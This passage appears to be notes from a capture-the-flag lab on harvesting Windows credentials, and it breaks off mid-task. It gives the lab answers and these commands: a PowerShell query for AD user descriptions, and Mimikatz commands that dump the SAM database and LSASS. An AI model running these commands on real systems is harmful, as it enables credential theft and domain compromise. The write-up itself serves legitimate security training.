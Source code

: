 Open Powershell 
Command :

```
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
```

![[Pasted image 20250607221209.png]]

```
Flag :  Passw0rd!@# 
```

---

##### Local Windows Credentials

* Follow the technique discussed in this task to dump the content of the SAM database file. What is the NTLM hash for the Administrator account?

We can use Mimikatz tool for this part, Which is already available inside C:\Tools

Command :

```
privilege::debug
token::elevate
lsadump::sam
```

This command will dump the credentials

![[Pasted image 20250607222258.png]]

```
Flag : 98d3a787a80d08385cea7fb4aa2a4261
```

---

##### Local Security Authority Subsystem Service (LSASS).

* Is the LSA protection enabled? (Y|N)

```
Y
```

* If yes, try removing the protection and dumping the memory using Mimikatz. Once you have done, hit Complete.



---

##### Windows Credential Manager

* Apply the technique for extracting clear-text passwords from Windows Credential Manager. What is the password of the THMuser for internal-app.thm.red?

Command :
